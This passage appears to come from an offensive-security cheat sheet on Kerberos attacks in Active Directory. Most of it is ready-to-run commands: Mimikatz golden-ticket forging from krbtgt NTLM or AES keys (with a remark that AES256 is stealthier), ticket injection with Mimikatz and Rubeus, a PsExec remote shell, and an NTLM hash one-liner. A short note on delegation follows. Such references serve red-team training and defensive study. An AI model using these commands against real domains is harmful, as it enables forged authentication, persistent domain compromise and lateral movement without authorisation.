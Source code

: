 #### Windows (internal) <a href="#windows-internal-6" id="windows-internal-6"></a>

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```powershell
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```powershell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```powershell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Misc <a href="#misc" id="misc"></a>

To get NTLM from password:

```powershell
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

### Delegation <a href="#delegation" id="delegation"></a>

> Allows a service impersonate the user to interact with a second service, with the privileges and permissions of the user
>
> * If a user has delegation capabilities, all its services (and processes) have delegation capabilities.
> * KDC only worries about the user who is talking to, not the process.
> * Any process belonging to the same user can perform the same actions in Kerberos, regardless of whether it is a service or not.
> * Unable to delegate if NotDelegated (or ADS\_UF\_NOT\_DELEGATED) flag is set in the User-Account-Control attribute of the user account or user in Protected Users group.
